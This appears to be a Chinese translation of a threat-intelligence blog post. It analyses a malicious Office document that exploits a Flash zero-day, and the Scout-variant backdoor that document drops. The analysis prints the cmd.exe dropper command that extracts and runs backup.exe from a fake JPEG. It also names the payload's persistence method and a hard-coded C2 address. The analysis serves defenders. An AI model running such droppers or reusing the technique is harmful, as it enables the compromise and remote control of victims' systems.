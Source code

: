 该恶意活动所采用的攻击技术本质上非常简单。这些文档在头部包含一个嵌入式的Flash Active X控件（如下图所示），该控件会在文档打开时执行，并导致Office中的Flash播放器被恶意利用。在漏洞利用之后，将执行恶意命令，该命令尝试提取并执行文档附带的Payload。

[![](https://atr-blog.gigamon.com/wp-content/uploads/2018/12/exploit-hidden-objecct.png)](https://atr-blog.gigamon.com/wp-content/uploads/2018/12/exploit-hidden-objecct.png)



## 漏洞利用

尽管业界已经努力在最新版本的Web浏览器中放弃使用Flash并删除Flash组件，但Microsoft Office仍然能够加载和执行Flash内容。因此，攻击者利用这一0day漏洞发动攻击是有价值的，这些漏洞允许攻击者执行任意命令。因此，只要存在能够可靠执行的武器化工具，这一漏洞就可以被利用。

在这种特定情况下，Flash漏洞利用工具完全被封装在文档中，并且支持32位和64位系统（具有相应的ShellCode）。包含Flash文件的容器中存在一个硬编码路径“C:run.de.swf”，该路径可能代表武器化阶段的文件路径。Flash文件和ShellCode没有使用任何形式的远程调用、分阶段、模糊处理或反分析机制。在两个ShellCode中，都使用了相同的“cmd.exe”来执行恶意命令：

```
C:WINDOWSsystem32cmd.exe /c set path=%ProgramFiles(x86)%WinRAR;C:Program FilesWinRAR; &amp;&amp; cd /d %~dp0 &amp; rar.exe e -o+ -r -inul*.rarscan042.jpg &amp; rar.exe e -o+ -r -inulscan042.jpg backup.exe &amp; backup.exe
```

上述命令首先将同一目录下的任意.rar文档解压缩，然后从scan042.jpg中解压出backup.exe文件，然后执行backup.exe文件，也就是最终的Payload。

我们的测试表明，只要从压缩包中打开恶意文档，就能够使漏洞利用代码和最终Payload运行，用户不需要事先将恶意文档（诱饵文档）进行解压缩。

[![](https://atr-blog.gigamon.com/wp-content/uploads/2018/12/Untitled-6.gif)](https://atr-blog.gigamon.com/wp-content/uploads/2018/12/Untitled-6.gif)



## Payload

我们没有监测到这一恶意活动对受害者的攻击行为。然而，通过复现和进一步研究，我们根据提交的细节、预期行为、时间接近程度和文件名相似程度，发现了相关联的Payload，并将其标为中等偏高置信度。我们认为，该Payload是Scout恶意软件的变种。

最初在scan042.jpg中的Payload的文件名为backup.exe，这是一个Windows可执行文件，根据其元数据表明，它伪装成“NVIDIA控制面板”，并且具有相匹配的图标和详细信息。该可执行文件受到VMProtect保护，这是一种防止逆向工程和安全分析的机制。在执行时，Payload会收集系统信息，建立持久性，并通过HTTP POST与远程服务器通信。我们观察到，其表现出以下行为：

1、枚举系统信息（利用WMI查询在本地进行枚举）

2、通过计划任务的方式增加持久性：

(1) 将填充数据添加到backup.exe中

(2) 将填充二进制文件放在%LOCALAPPDATA%NVIDIAControlPanelNVIDIAControlPanel.exe的位置

(3) 设置在用户登录时启动

3、使用HTTP POST方式，将Base64编码后的内容发送到“dotted-quad”：

(1) 硬编码命令与控制地址：188.241.58[.]68

(2) 硬编码User-Agent字符串：Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36

(3) 在网络回调之间，休眠5分钟

下图展示了恶意软件创建的任务计划，以确保重新启动后具有持久性：

[![](https://atr-blog.gigamon.com/wp-content/uploads/2018/12/status-trigger-1024x290.png)](https://atr-blog.gigamon.com/wp-content/uploads/2018/12/status-trigger-1024x290.png)
